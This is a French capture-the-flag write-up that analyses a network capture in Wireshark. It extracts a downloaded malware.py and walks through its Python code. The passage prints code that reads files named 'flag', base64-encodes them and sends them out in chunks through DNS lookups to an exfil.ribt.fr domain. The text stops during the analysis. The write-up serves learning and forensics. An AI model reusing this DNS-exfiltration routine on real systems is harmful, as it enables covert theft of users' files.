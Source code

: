 Et hop, on a notre fichier tout propre tout beau, que Wireshark peut lire.
On ouvre donc le fichier, et puis là... On est assez surpris par la longueur du fichier.
La capture fait 7491 trames, principalement des trames DNS. Une première intuition me fait dire que la plus grosse partie du challenge se déroulera là. Ensuite, nous avons au début quelque chose que j'interprète comme l'initialisation de quelque chose. Et là, un détail me saute aux yeux : un GET de /malware.py, provenant du site `ribt.fr` sur le port `8000`.

 ![Pas_discret](https://cdn.discordapp.com/attachments/822188888297963560/1173656521385705573/Capture_decran_24.png?ex=6564bfd0&is=65524ad0&hm=45274245d1a8992fc45430afab53f765d6d829bd0151cd1ae27d600e1b3b9a4b&){: .mx-auto.d-block :}

 ![Pas_discret2](https://media.tenor.com/gVHHuzDLos8AAAAC/tiens-tiens-tiens-booba.gif){: .mx-auto.d-block :}

 Nous faisons donc un `clic droit -> Suivre -> Flux TCP`
 Et nous avons notre malware en clair !
 
 ![Malware](https://cdn.discordapp.com/attachments/822188888297963560/1173657711565607042/Capture_decran_25.png?ex=6564c0eb&is=65524beb&hm=0ba9ba2479432ef2ac7aabae2f81f4cc5bbab369a3fe7b48c3bc2e55e23e7af7&){: .mx-auto.d-block :}
 
 Passons maintenant à l'analyse.
 
![Analyse](https://i.pinimg.com/736x/90/36/85/9036856e213e3f2e8161ae9bfaa24bfd.jpg){: .mx-auto.d-block :}

## Analyse du malware

 
Intéressons-nous tout d'abord à la première partie du code.
 ```python
files = os.listdir('.')
for f in files:
    if 'flag' in f:
        with open(f, 'rb') as flag:
            data = flag.read()
```
La première ligne recherche tous les fichiers situés dans le répertoire où l'utilisateur est situé, puis itère dessus dans une boucle for. Si le fichier a pour nom "flag", la condition est remplie, donc le programme ouvre l'image en mode lecture, puis stocke les données de `flag` dans data. Jusque là, rien de sorcier. La partie suivante sera un peu plus intéressante pour nous.

 ```python
encoded = base64.urlsafe_b64encode(data).decode().rstrip("=")
chunks = [encoded[i:i+63] for i in range(0, len(encoded), 63)]
```

Ce morceau de code, qui paraît barbare, est en fait assez simple à comprendre. Nos données, précédemment stockées dans `data`, sont encodées en base64 (qui, je le rappelle, n'est pas un mécanisme de chiffrement, pour éviter de vous faire taper par des gourous de crypto).
Après, les données encodées sont séparées en morceaux de 63 caractères dans la liste par compréhension `chunks`. En gros, cela découpe les données encodées en base64 en morceaux de taille similaire. C'est tout pour cette partie, on passe à la suivante.

```python
queries = [chunk + '.exfil.ribt.fr' for chunk in chunks]
for i in range(len(queries)):
    try:
        socket.gethostbyname(str(i)+"."+queries[i])
    except:
        pass
```
